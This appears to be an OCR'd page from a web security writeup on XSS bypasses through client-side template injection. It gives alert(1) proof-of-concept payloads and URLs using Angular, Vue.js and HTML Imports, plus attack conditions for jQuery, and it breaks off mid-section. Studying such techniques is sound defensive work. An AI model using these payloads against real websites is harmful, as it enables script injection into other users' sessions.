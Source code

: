 supplement:

Angular will try to expand the template enclosed in {{}} inside the tag with the attribute ng-app. Templates can run scripts.

Reference URL:

- https://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html

PoC:

[https://vulnerabledoma.in/bypass/text?q=%3Cscript%20src=%22/js/angular1.6.4.min.js%22%3E%3C/script%3E%3Cp%20ng-app%3E{{constructor.constructor(%27alert(1)%27)()}}](https://vulnerabledoma.in/bypass/text?q={{constructor.constructor('alert(1)')()}})

```
<script src="/js/angular1.6.4.min.js"></script><p ng-app>{{constructor.constructor('alert(1)')()}}
```

If you have a page on the same origin that loads Angular from a CORS-enabled CDN, you can load resources from external origins by indirectly loading them from HTML Imports.

(Chrome only) [https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=angular.html%3E%3Cp%20ng-app%3E{{constructor.constructor(%27alert(1 ) )%27)()}}](https://vulnerabledoma.in/bypass/text?q={{constructor.constructor('alert(1)')()}})

```
<link rel=import href=angular.html><p ng-app>{{constructor.constructor('alert(1)')()}}
```

#### Using Vue.js

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. A page on the same origin that hosts Vue.js or loads from a CORS-enabled CDN
3. There is a script on the page or on the same origin that can perform template expansion for specially crafted tags

PoC:

(This example is for Chrome only) [https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/vue.html%3E%3Cdiv%20id=app%3E{{constructor. constructor(%27alert(1)%27)()}}](https://vulnerabledoma.in/bypass/text?q={{constructor.constructor('alert(1)')()}})

```
<link rel=import href=/bypass/vue.html><div id=app>{{constructor.constructor('alert(1)')()}}
```

#### Using jQuery

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. A page on the same origin that hosts jQuery or loads jQuery from a CORS-enabled CDN
3. There is a script on the page or on the same origin that can execute jQuery additional functions for the crafted form tag

supplement:

